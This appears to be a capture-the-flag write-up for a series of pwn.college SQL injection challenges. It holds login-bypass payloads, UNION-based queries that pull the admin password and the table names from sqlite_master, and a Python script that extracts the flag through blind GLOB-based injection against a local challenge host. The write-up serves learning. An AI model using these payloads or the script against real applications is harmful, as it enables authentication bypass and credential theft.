 # SQLi

## SQLi 1

User: `admin`
PIN: `1 OR 1=1`

SQL Query formed:

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND pin = 1 OR 1=1
```

## SQLi 2

User: `admin`
Password: `'pass OR '1'='1`

SQL Query formed:

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND password = 'pass' OR '1'='1'
```

## SQLi 3

Observing the server code we get to know that the password of the admin is the flag.

Query: admin" UNION SELECT password FROM users WHERE username LIKE "admin

SQL Query formed:

```sql
SELECT username FROM users WHERE username LIKE "admin" UNION SELECT password FROM users WHERE username LIKE "admin"
```

## SQLi 4

Since the server uses sqlite \
Query: admin" UNION SELECT tbl_name FROM sqlite_master WHERE tbl_name LIKE "users%

SQL Query formed (REDACTED is the randomized name of users table)

```sql
SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT tbl_name FROM sqlite_master WHERE tbl_name LIKE "users%"
```

This gives the name os the users table, now do same as [SQLi 3](./SQLi%203.md)

## SQLi 5

Python script:

```python
import requests

url = "http://challenge.localhost/"
username = "admin"
password = "' OR 1=1 AND password GLOB 'pwn.college{"

while True:
    for i in range(33,127):
        if chr(i) in ["*", "?"]:
            continue
        tmp = password + chr(i)
        data = {"username": username, "password": tmp+"*"}
        response = requests.post(url, data=data)
        if response.status_code == 200:
            password = tmp
            print(f"Found: {password}")
            if chr(i) == "}":
                exit(0)
            break
```

Using `GLOB` because `LIKE` is, by default, case-insensitive in SQLite.
